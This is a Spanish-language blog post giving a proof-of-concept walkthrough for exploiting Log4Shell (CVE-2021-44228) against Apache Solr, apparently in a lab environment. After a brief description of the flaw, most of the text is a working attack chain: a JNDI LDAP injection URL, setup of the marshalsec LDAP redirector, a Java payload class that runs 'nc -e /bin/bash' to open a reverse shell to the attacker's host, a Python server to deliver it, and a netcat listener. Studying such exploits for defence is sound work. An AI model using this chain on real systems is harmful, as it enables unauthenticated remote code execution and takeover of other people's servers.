 ```yaml
---
layout: single
title:  "log4j CVE-2021-44228 POC"
categories: [cve, poc, articulo]
---
```


## Explotacion de log4jshell  CVE-2021-44228

El pasado jueves salió a la luz una vulnerabilidad que afecta al Java logging package llamado **Log4j**. Etiquetada como **`CVE-2021-44228`** conocida por apodos como **Log4Shell** o **LogJam** y descubierta por el equipo de seguridad de Alibaba, el problema se refiere a un caso de ejecución remota de código no autenticado (RCE) en cualquier aplicación que use esta utilidad de código abierto y afecte a las versiones no parcheadas, de Apache Log4j 2.0-beta9 hasta la 2.14. 1. El error fue calificado con la puntuación máxima de <span style="color:red">10 sobre 10</span>   en el sistema de clasificación CVSS, lo que indica la enorme gravedad del problema.


Para aprovecharnos de esta vulnerabilidad puede ser fácil o a la vez no. La idea es encontrar algún parámetro con lo que enviemos se guarde en los logs para que luego se ejecute, puede ser tanto en el user-agent o en algún parámetro get como o de la url , etc

## POC

 [Apache Solr 8.11.0](https://solr.apache.org/) es una aplicación vulnerable en la que enviándole data en `/solr/admin/cores?foo=` lo va a guardar en los logs. Podemos probar esto de la siguiente manera <br>

 enviando `${jndi:ldap://<IP><PUERTO>}` si es vulnerable nos debería traer una conexión ldap que no entiende la terminal 

 ``` http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:3000} ```

 ![reverse](/assets/articulos/log4j/reverse.png)

Una vez hecho esto, para ganar ejecución de comandos remota tenemos que hacer redireccionar la petición ldap 

Usamos este proyecto que tenemos que compilar con maven <br>
``sudo apt install maven`` <br>
[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec) <br>
```mvn clean package -DskipTests``` <br>

![reverse](/assets/articulos/log4j/marshallsec.png)


Ya con nuestro ldap redirector usamos este comando para decirle que abra ruta en nuestro host en el puerto 8080, que próximamente crearemos 

``` java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP>:8000/#Exploit" ```

![ref](/assets/articulos/log4j/ref.png)
 <br>
 Ahora que tenemos nuestro servidor ldap listo, creamos nuestro payload final <br>
 Creamos un script en java el cual tenemos que compilar para que log4j lo ejecute

 ```java

public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <IP> <PUERTO>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

 ```
```javac Exploit.java -source 8 -target 8```


![ref](/assets/articulos/log4j/compilado.png)

Por último creamos nuestro servidor en python en el puerto **8000** `python3 -m http.server 8000` y nuestro netcat en escucha `nc -lvp <PUERTO>`

ahora enviamos en la máquina atacante `${jndi:ldap://10.14.13.223:1389/Exploit}` <br>
`http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:1389/Exploit}`

![get](/assets/articulos/log4j/get.png)

Y en nuestro netcat que habíamos creado 


![get](/assets/articulos/log4j/revshell.png)





